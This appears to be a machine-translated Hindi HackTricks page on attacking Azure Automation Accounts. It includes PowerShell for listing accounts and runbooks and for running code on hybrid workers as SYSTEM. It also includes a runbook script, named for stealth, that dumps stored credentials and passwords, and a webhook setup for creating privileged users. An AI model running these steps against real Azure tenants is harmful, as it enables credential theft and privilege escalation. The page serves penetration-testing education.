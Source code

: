# Az - स्वचालन खाता

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/automation/overview) एज़्यूर ऑटोमेशन एक क्लाउड-आधारित स्वचालन, ऑपरेटिंग सिस्टम अपडेट और कॉन्फ़िगरेशन सेवा प्रदान करता है जो आपके एज़्यूर और गैर-एज़्यूर वातावरण में संयमित प्रबंधन का समर्थन करता है। इसमें प्रक्रिया स्वचालन, कॉन्फ़िगरेशन प्रबंधन, अपडेट प्रबंधन, साझा क्षमताएँ और विविध सुविधाएँ शामिल हैं।

ये एज़्यूर में "**निर्धारित कार्य**" हैं जो आपको चीजों (क्रियाएँ या स्क्रिप्ट भी) को **प्रबंधित**, जांचने और कॉन्फ़िगर करने की अनुमति देंगे।

### रन एस खाता

जब **रन एस खाता** का उपयोग किया जाता है, तो यह एक एज़्यूर एडी **एप्लिकेशन** बनाता है जिसमें स्व-साइन की गई प्रमाणपत्र होती है, एक **सेवा प्रिंसिपल** बनाता है और **वर्तमान सब्सक्रिप्शन** में खाते के लिए **कॉन्ट्रिब्यूटर** भूमिका का निर्धारण करता है (कई अधिकार)।\
माइक्रोसॉफ्ट **ऑटोमेशन खाते** के लिए **प्रबंधित पहचान** का उपयोग करने की सिफारिश करता है।

{% hint style="warning" %}
यह **30 सितंबर, 2023 को हटा दिया जाएगा और प्रबंधित पहचानों के लिए बदल दिया जाएगा।**
{% endhint %}

## रनबुक्स और नौकरियाँ

**रनबुक्स** आपको **विभिन्न PowerShell** कोड को **निषेधित** करने की अनुमति देते हैं। इसे एक हमलावर द्वारा उस **संलग्न प्रधान** की अनुमतियों को चुराने के लिए दुरुपयोग किया जा सकता है।\
**रनबुक्स** के **कोड** में आपको **संवेदनशील जानकारी** (जैसे क्रेडेंशियल) भी मिल सकती है।

यदि आप **नौकरियाँ** को **पढ़** सकते हैं, तो उन्हें पढ़ें क्योंकि वे रन का **आउटपुट** (संभावित **संवेदनशील जानकारी**) शामिल करती हैं।

`ऑटोमेशन खाते` पर जाएं --> `<चयनित ऑटोमेशन खाता>` --> `रनबुक्स/नौकरियाँ/हाइब्रिड कार्यकर्ता समूह/वॉचर कार्य/क्रेडेंशियल/चरण/संबंध/विद्यमानताएँ`

### हाइब्रिड कार्यकर्ता

एक रनबुक्स को एक **आज़्यूर के भीतर कंटेनर** में चलाया जा सकता है या एक **हाइब्रिड कार्यकर्ता** (गैर-एज़्यूर मशीन) में।\
**लॉग विश्लेषक एजेंट** वीएम पर डिप्लॉय किया जाता है ताकि इसे एक हाइब्रिड कार्यकर्ता के रूप में पंजीकृत किया जा सके।\
हाइब्रिड कार्यकर्ता जॉब विंडोज पर **सिस्टम** और लिनक्स पर **nxautomation** खाते के रूप में चलते हैं।\
प्रत्येक हाइब्रिड कार्यकर्ता एक **हाइब्रिड कार्यकर्ता समूह** में पंजीकृत होता है।

इसलिए, यदि आप एक **विंडोज हाइब्रिड कार्यकर्ता** में एक **रनबुक्स** चलाने का चयन कर सकते हैं, तो आप एक बाहरी मशीन में **सिस्टम** (अच्छी पिवट तकनीक) के रूप में **निर्देशित कमांड** चला सकते हैं।

## संकट राज्य कॉन्फ़िगरेशन (SC)

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) एज़्यूर ऑटोमेशन **राज्य कॉन्फ़िगरेशन** एक एज़्यूर कॉन्फ़िगरेशन प्रबंधन सेवा है जो आपको किसी भी क्लाउड या स्थानीय डेटासेंटर में नोड के लिए PowerShell Desired State Configuration (DSC) [कॉन्फ़िगरेशन](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) लिखने, प्रबंधित और कॉम्पाइल करने की अनुमति देता है। सेवा भी [DSC संसाधन](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources) को आयात करती है, और लक्ष्य नोड्स को कॉन्फ़िगरेशन निर्धारित करती है, सभी क्लाउड में। आप एज़्यूर पोर्टल में एज़्यूर ऑटोमेशन स्टेट कॉन्फ़िगरेशन तक पहुंच सकते हैं जिसे चयन करके **स्टेट कॉन्फ़िगरेशन (DSC)** के तहत **कॉन्फ़िगरेशन प्रबंधन** का चयन करें।

इन कॉन्फ़िगरेशन में **संवेदनशील जानकारी** मिल सकती है।

### RCE

SC का दुरुपयोग करके प्रबंधित मशीनों में विभिन्न स्क्रिप्ट चलाना संभव है।

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## गणना

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
{% endcode %}

### रनबुक बनाएं

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### एक रन बुक का उपयोग करके ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चर निकालें
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
आप एक मौजूदा रन बुक को संशोधित करके और वेब कंसोल से भी एक ही चीज कर सकते हैं।
{% endhint %}

### स्वचालित उच्च विशेषाधिकारी उपयोगकर्ता निर्माण सेटअप के लिए कदम

#### 1. एक ऑटोमेशन अकाउंट की आरंभिककरण
- **कार्रवाई आवश्यक:** एक नया ऑटोमेशन अकाउंट बनाएं।
- **विशेष सेटिंग:** सुनिश्चित करें कि "Create Azure Run As account" सक्षम है।

#### 2. रनबुक को आयात और सेटअप करें
- **स्रोत:** [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) से नमूना रनबुक डाउनलोड करें।
- **कार्रवाई आवश्यक:**
- रनबुक को ऑटोमेशन अकाउंट में आयात करें।
- रनबुक को प्रकाशित करें ताकि इसे क्रियाशील बनाया जा सके।
- रनबुक के साथ एक वेबहुक जोड़ें, बाह्य प्रेरकों को सक्षम करना।

#### 3. AzureAD मॉड्यूल कॉन्फ़िगर करें
- **कार्रवाई आवश्यक:** AzureAD मॉड्यूल को ऑटोमेशन अकाउंट में जोड़ें।
- **अतिरिक्त कदम:** सुनिश्चित करें कि सभी Azure ऑटोमेशन मॉड्यूल उनके नवीनतम संस्करणों में अपडेट हैं।

#### 4. अनुमति असाइनमेंट
- **भूमिकाएँ असाइन करने के लिए:**
- उपयोगकर्ता प्रशासक
- सब्सक्रिप्शन मालिक
- **लक्ष्य:** आवश्यक विशेषाधिकारों के लिए ऑटोमेशन अकाउंट को इन भूमिकाओं को असाइन करें।

#### 5. पहुंच हानि के जागरूकता
- **ध्यान दें:** ध्यान रखें कि ऐसी स्वचालन कॉन्फ़िगर करने से सदस्यता पर नियंत्रण खोने का संभावना है।

#### 6. उपयोगकर्ता निर्माण को ट्रिगर करें
- एक पोस्ट अनुरोध भेजकर एक नए उपयोगकर्ता बनाने के लिए वेबहुक को ट्रिगर करें।
- प्रदान किए गए PowerShell स्क्रिप्ट का उपयोग करें, सुनिश्चित करें कि आप अपने वास्तविक वेबहुक URL के साथ `$uri` को बदल दें और `$AccountInfo` को वांछित उपयोगकर्ता नाम और पासवर्ड के साथ अपडेट करें।
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## संदर्भ

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github रेपो में।**

</details>
{% endhint %}
